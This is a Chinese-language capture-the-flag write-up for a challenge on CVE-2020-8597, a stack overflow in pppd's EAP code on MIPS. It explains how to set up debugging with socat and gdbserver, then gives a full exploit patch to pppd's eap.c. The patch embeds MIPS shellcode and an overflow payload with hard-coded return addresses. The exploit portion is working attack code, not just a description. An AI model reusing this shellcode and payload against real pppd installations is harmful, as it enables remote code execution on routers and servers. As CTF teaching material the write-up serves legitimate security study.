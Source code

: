 ## pppd
[中文](./README_zh.md) [English](./README.md)

[attachment](./attachment.zip)

[docker](./docker.zip)

这道题是要求写CVE-2020-8597的1 day exp
这个cve本身其实是非常简单的，就单纯一个栈溢出
但是难的是与pppd进行通信和在mips环境下面进行调试

在比赛的时候大部分队伍都没有找到与pppd通信的办法，因此我就直接放出提示，使用socat与pppd进行通信

接下来介绍的是如何调试的方法

首先题目默认关闭了network

在/etc/init.d/S40network, 将注释全部删掉，然后修改start.sh脚本，将-net none删除，加上-redir tcp:9999::9999 -redir tcp:4242::4242，这样就配置好network了

然后修改/etc/inittab
将
```
ttyS0::sysinit:/pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
修改为
```
ttyS0::sysinit:/bin/sh
```

然后到github下载一个[gdbserver](https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), 重新打包一个cpio，启动

进入系统后默认得到一个shell，系统里面自带一个socat

执行
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
之后执行下面的命令获取pppd的pid
```
ps |grep pppd
```
使用gdbserver attach上pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
然后在外面使用gdb-multiarch去连接gdbserver

之后下载一个pppd的源码，编译
执行
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999 &
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
这样就成功进行调试了

之后根据https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124的操作patch源码，写exp即可

exp patch如下
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```
